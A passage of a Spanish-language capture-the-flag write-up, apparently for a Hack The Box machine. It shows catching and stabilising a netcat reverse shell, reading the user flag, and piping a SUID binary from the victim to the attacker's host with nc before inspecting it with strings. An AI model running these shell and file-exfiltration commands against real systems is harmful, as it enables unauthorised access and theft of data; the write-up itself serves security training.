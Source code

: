 ```plaintext
❯ nc -nlvp 8080
listening on [any] 8080 ...
Connection from 10.10.11.136:45244
❯ script /dev/null -c bash
Script started, file is /dev/null
❯ CTRL + Z
[1]+ Detenido		nc -nlvp 8080
❯ stty raw -echo; fg
nc -nlvp 8080
	reset
reset: unknow terminal type unknown
Terminal type? xterm
❯ export SHELL=bash
❯ export TERM=xterm
❯ stty rows 42 columns 174
```

Vamos a comprobar con que usuario hemos entrado y los grupos a los que pertenece.

```plaintext
❯ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

Ya hemos conseguido convertirnos en el usuario `matt`, ahora tendremos que escalar hasta el usuario `root`, pero no sin antes leer la flag del usuario.

```plaintext
❯ cat user.txt
318fe6b33493c95d****************
```

Si recordamos, al principio cuando conseguimos acceder a la máquina víctima mediante el usuario `daniel` encontramos un binario con permisos SUID, sin embargo, no podiamos interactuar con el debido a que no contabamos con los permisos necesarios. Ahora, ya que nos hemos convertido en el usuario `matt` podemos interactuar con él.

Vamos a traernos el binario a nuestro equipo para poder analizarlo más comodamente.

Máquina víctima

```plaintext
nc 10.10.14.169 4040 < /usr/bin/pandora_backup
```

Nuestra equipo

```plaintext
nc -nlvp 4040 > binario
```

Ahora que ya está el binario en nuestro equipo vamos a empezar a analizarlo. No vamos a poder leerlo ya que contiene código fuente almacenado, podríamos intentar ver si hay algunas líneas legibles con el comando `strings`.

```plaintext
❯ strings binario
/lib64/ld-linux-x86-64.so.2
puts
setreuid
system
getuid
geteuid
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
```